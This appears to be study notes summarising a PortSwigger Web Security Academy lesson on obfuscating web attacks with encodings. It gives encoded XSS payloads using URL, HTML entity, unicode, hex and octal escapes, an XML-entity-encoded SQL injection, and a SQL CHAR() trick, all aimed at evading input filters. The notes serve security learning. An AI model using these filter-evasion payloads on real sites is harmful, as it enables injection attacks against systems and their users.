 # [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)

## Obfuscation via URL encoding

```
[...]/?search=Fish+%26+Chips
```

## Obfuscation via double URL encoding

```
[...]/?search=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
```

```
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

## Obfuscation via HTML encoding

```
<img src=x onerror="&#x61;lert(1)">
```

## Leading zeros

```
<a href="javascript&#00000000000058;alert(1)">Click me</a>
```

## Obfuscation via XML encoding

```
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

## Obfuscation via unicode escaping

```
eval("\u0061lert(1)")
```

```
<a href="javascript\u{0000000003a}alert(1)">Click me</a>
```

## Obfuscation via hex escaping

```
eval("\x61lert")
```

## Obfuscation via octal escaping

```
eval("\141lert(1)")
```

## Obfuscation via multiple encodings

```
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

```
<a href="javascript:\u0061lert(1)">Click me</a>
```

```
<a href="javascript:alert(1)">Click me</a>
```

## Obfuscation via the SQL CHAR() function

```
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```

